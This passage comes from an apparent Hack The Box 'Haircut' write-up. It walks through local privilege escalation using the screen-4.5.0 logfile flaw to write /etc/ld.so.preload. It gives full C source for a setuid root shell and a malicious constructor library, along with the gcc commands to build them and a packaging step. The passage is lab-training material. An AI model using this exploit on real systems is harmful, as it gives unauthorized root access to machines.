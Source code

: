 		```
		- `access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)`
2. How do we exploit `screen-4.5.0`
	1. `screen-4.5.0` creates a logfile w/ full `root` privileges, this allows users to truncate any file or create a root-owned file in any directory.
	2. This exploit will allows us to create `/etc/ld.so.preload` file and populate its content with a malicious library(ies). 
	3. We can do so by naming `screen-4.5.0`'s log file `ld.so.preload` and echo the path of the malicious library so that it will be stored in the logfile.
	4. Finally, execute `screen-4.5.0`, and the malicious library will be loaded/executed.
3. Create files needed for `screen-4.5.0` exploit
	1. `rootshell`
		- To spawn a shell w/ `root` privileges
	2. `libhax.so` 
		- Malicious library that will setuid on `rootshell`
	3. Create `rootshell.c` on `kali`
		```c
		#include <stdio.h>
		int main(void){
		    setuid(0);
		    setgid(0);
		    seteuid(0);
		    setegid(0);
		    execvp("/bin/sh", NULL, NULL);
		}
		```
	4. Create `libhax.c` on `kali`
		```c
		#include <stdio.h>
		#include <sys/types.h>
		#include <unistd.h>
		__attribute__ ((__constructor__))
		void dropshell(void){
		    chown("/tmp/rootshell", 0, 0);
		    chmod("/tmp/rootshell", 04755);
		    unlink("/etc/ld.so.preload");
		    printf("[+] done!\n");
		}
		```
	5. Compile `libhax.c` & `rootshell.c`
		```
		┌──(root💀kali)-[~/htb/haircut/10.10.10.24/exploit/screen-4.5.0]
		└─# gcc -fPIC -shared -ldl -o libhax.so libhax.c
		
		┌──(root💀kali)-[~/htb/haircut/10.10.10.24/exploit/screen-4.5.0]
		└─# gcc -o /tmp/rootshell /tmp/rootshell.c
		```
	6. Zip it & Transfer to `haircut.htb`
		```
		┌──(root💀kali)-[~/htb/haircut/10.10.10.24/exploit/screen-4.5.0]
		└─# tar czf exploit.gz libhax.so rootshell
		